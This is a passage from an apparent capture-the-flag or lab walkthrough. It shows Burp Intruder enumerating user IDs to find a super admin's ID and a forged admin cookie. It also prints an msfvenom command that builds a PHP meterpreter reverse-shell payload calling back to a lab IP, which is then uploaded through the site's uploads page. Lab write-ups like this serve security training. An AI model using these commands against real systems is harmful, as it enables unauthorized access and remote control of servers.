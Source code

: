 	* We press Clear to remove the pre-populated payload positions, select the Id value (1), and click Add. Next, click on the Payloads tab.
	* We can generate a sequential list of 1-100 using a simple bash loop: ```for i in `seq 1 100`; do echo $i; done```. Paste the output into the Payloads box.
	* ID 30 shows that `super admin` is `86575`
		![Screenshot-20200503234934-870x635.png](./resources/614acba83c8243d8b7d19ab3c83d1bd1.png)
	* Go to `Uploads` page and change `Cookie: user=34322; role=admin` to `Cookie: user=86575; role=admin`
7. Use [msfvenom cheatsheet 1](https://netsec.ws/?p=331) to create payload:
	```
	msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.117 LPORT=24785 -f raw > shell.php
	cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> shell.php
	```
	Uploads directory found before by `dirbuster`: `/uploads/`. Upload the payload using the web portal.
	![Screenshot-20200504001507-546x213.png](./resources/88f06b7756964cea83c0c39117e82436.png)
	